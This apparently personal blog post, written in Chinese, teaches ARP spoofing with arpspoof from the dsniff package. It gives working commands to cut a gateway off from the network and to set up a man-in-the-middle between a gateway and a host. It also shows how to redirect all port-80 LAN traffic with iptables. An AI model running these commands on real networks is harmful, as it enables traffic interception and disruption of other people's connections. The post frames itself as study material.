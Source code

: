 ```yaml
---
title: Arp 攻击
slug: arpspoof
tags: [tech, linux]
---
```


> 本篇内容仅用于学习和测试，本人遵纪守法。

## 安装

arpspoof 是 dsniff 包里的一个程序，可用于arp攻击。Manjaro 中执行以下命令安装这个软件包就可以使用了。

``` bash
yay -S dsniff
```

## 介绍

arpspoof - 截获交换局域网中的数据包。

```
用法
      arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

描述
      arpspoof通过伪造的ARP响应包改变局域网中从目标主机（或所有主机）到另一个主机（host）的数据包转发路径。这是交换局域网中嗅探网络流量的一种极为有效的方法。
      内核IP转发（或如fragrouter这样的、用户层面的、能完成同样功能的软件）必须提前开启。
```

## 使用情景

1.&nbsp;断网攻击，不开启流量转发，使用我的无线网卡 `wlp8s0`，攻击网关
```bash
sudo arpspoof -i wlp8s0 -t 192.168.1.1
```
2.&nbsp;中间人攻击，截获用户和网关之间的流量

开启流量转发
```bash
echo 1 >> /proc/sys/net/ipv4/ip_forward
```
欺骗双方，充当中间人
```bash
sudo arpspoof -i wlp8s0 -t 192.168.1.1 192.168.1.106
sudo arpspoof -i wlp8s0 -t 192.168.1.106 192.168.1.1
```

此时网关以为我是106，而106以为我是网关。双方的流量都将经过这里，使用 WireShark 即可对经过网卡的流量进行分析。

3.&nbsp;重定向攻击

使局域网所有设备访问的 80 端口，重定向到我这里的 8080 端口，需要开启流量转发。
```bash
sudo arpspoof -i wlp8s0 192.168.1.1
```
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```